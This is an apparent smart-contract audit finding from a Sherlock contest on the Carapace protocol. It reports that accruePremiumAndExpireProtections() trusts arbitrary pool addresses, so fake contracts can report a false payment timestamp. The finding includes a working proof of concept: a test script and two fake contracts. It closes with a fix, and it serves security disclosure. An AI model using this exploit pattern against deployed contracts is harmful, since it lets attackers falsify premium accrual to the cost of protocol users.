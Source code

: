 CRYP70

medium

# An attacker may exploit accruePremiumAndExpireProtections() by reporting a false timestamp

## Summary
In the ProtectionPool contract, the `accruePremiumAndExpireProtections()` will check that protections bought are still valid and collect any payments made for the sellers. Premiums which surpass their expiry date are expired. This function indirectly interfaces with the `GoldfinchAdapter.sol` to collect data about these protections. A piece of this data reports the last payments from the protocol. 

Call stack:
        - `ProtectionPool.accruePremiumAndExpireProtections(uint256[] memory address)`
	- `ReferenceLendingPool.getLatestPaymentTimestamp(address)`
	- `GoldfinchAdapter._getLatestPaymentTimestamp(address)`
	- `GoldfinchAdapter._getCreditline(address)`

## Vulnerability Detail
Because the function allows the user to supply an arbitrary address, an attacker could supply their own smart contract in order to trigger an external call by the `GoldfinchAdapter` and report a false timestamp for payment.

## Impact
This was rated a medium in severity because certain edge cases must be met to accrue false premium for the protocol. 

## Code Snippet
- https://github.com/sherlock-audit/2023-02-carapace/blob/main/contracts/core/pool/ProtectionPool.sol#L302-L304


_Proof of Concept_:
**Attacker script**
```javascript
    it("testLatestPaymentExploit", async function() {

        const attacker = (await ethers.getSigners())[0];

        const fakeICreditLineFactory = await ethers.getContractFactory("FakeICreditLine", attacker);
        const fakeICreditLine = await fakeICreditLineFactory.deploy();
        await fakeICreditLine.setFalseCreditLineToNow();
        
        const fakeITranchedPoolFactory = await ethers.getContractFactory("FakeITranchedPool", attacker);
        const fakeITranchedPool = await fakeITranchedPoolFactory.deploy(fakeICreditLine.address);

        await protectionPoolInstanceUsdc.accruePremiumAndExpireProtections([fakeITranchedPool.address])
    });
```
**FakeICreditLine**
```javascript
// SPDX-License-Identifier: MIT

contract FakeICreditLine {

    uint256 public falseCreditLine;

    function setFalseCreditLineToNow() external {
        falseCreditLine = block.timestamp;
    }

    function setFalseCreditLine(uint256 timestamp) external {
        falseCreditLine = timestamp;
    }

    function lastFullPaymentTime() external view returns (uint256) {
        return falseCreditLine;
    }
}
```
**FakeITranchedPool**
```javascript
// SPDX-License-Identifier: MIT

import "./FakeICreditLine.sol";

contract FakeITranchedPool {

    FakeICreditLine fakeCreditline;
    constructor(address fakeCreditlineAddr){
        fakeCreditline = FakeICreditLine(fakeCreditlineAddr);
    }

    function creditLine() external view returns(FakeICreditLine) {
        return fakeCreditline;
    }
}
```


## Tool used

Manual Review

## Recommendation

It's recommended that the ProtectionPool contract validates the supplied addresses against known lending pools and `continue`ing in the loop if the address is not known or trusted. 